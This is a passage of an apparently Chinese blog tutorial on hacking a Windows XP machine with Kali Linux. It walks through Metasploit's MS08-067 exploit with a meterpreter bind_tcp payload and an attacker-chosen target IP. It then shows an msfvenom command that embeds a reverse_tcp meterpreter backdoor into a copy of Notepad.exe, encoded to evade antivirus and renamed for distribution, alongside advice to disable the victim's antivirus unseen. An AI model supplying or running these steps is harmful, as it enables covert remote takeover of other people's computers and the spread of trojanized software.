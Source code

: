 ### 03.使用ms08漏洞并设置
使用该内容，输入:
```msf
use exploit/windows/smb/ms08_067netapi
```
你会发现命令的提示符旁边多了`exploit(windows/smb/ms08_067-netapi)`，表示使用成功。
你可以通过`info *内容名`来详细查看这个内容。
![](https://coding.net/u/SunbossRS/p/GotBlogDowner/git/raw/master/img/kalihack/03.png)

### 04.设置载荷
载荷可以说是一个会话的类型设置。你可以看到命令的末尾有个`bind_tcp`。  
`bind tcp`可说是隐秘的会话。`reverse_tcp`是指通过软件发起的对话。我等会儿会讲软件传播。  
输入。
```msf
set payload windows/meterpreter/bind_tcp
```

### 05.设置要控制的主机
另外，攻击Xp主机要先提前知道Xp的IP地址。  
别被人发现，跑到Xp电脑进入cmd输入`ipconfig`查看ip地址。比如，我这里看到ip地址是`192.108.1.104`。    
回到你的kali前，输入:  
```msf
set RHOST 192.108.1.104
```
这里是设定控制主机的ip地址。RHOST可说是全写Remote Host。

### 06.开始攻击！
做完这些后，你就可以开始了！输入！
```msf
exploit
```
![](https://coding.net/u/SunbossRS/p/GotBlogDowner/git/raw/master/img/kalihack/04.png)
![](https://coding.net/u/SunbossRS/p/GotBlogDowner/git/raw/master/img/kalihack/05.png)

>该文章中的所有图片均为网上的图片。如果侵犯到了你的权利，可联系作者来进行删除。
<br /> <br /> <br />

***

<br />
### 前言
你先弄出一个我们经常用的应用程序，然后把连接会话藏到这些应用里。这就是为什么在那些2008、2009年时说的“不要下载网站上未知来源的东西”。  
但现在我们有了360安全卫士啊，电脑管家啊那些杀毒软件就变得安全多了。对于我这个灰帽黑客兼MC博主来讲，This is a LITTLE problem。  
But anyways，我们关掉那台Xp的杀毒软件就行了鸭［滑稽］。  
好吧我们废话不多说，开始正题。

### 01.编译软件和发送
先在`~/`的位置里放置从电脑上拷贝出来的Notepad.exe  
然后在kali命令行里输入这段命令:  
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.106.12.175 LPORT=4444 -x NOTEPAD.EXE -e x86/jmp_call_additive -i 4 -k -f exe > ~/NotepadPro.exe
```
我们看到-p指到了reverse_tcp了。-p全写就是payload鸭。  
`LHOST`是指你的Kali电脑的ip地址。  
`LPORT`是指你的Kali电脑的端口。随情况而定。  
`-x`是指源，然后msfvenom根据源进行修改和添加。    
至于后面，是指转成X86（32位系统）的软件exe格式。  
  